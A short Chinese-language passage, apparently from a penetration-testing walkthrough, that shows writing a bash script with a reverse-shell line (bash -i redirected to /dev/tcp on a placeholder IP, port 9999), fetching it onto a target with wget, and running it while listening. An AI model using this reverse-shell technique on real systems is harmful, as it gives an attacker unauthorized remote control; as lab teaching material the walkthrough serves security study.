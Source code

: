 先写 bash文件，内容为反弹shell语句，使用wget下载到目标中

> [!NOTE]
>
> #!/bin/sh
> bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'

![](image/salt-13.png)

监听端口，使用 **/bin/bash** 运行文件 反弹shell

![](image/salt-14.png)
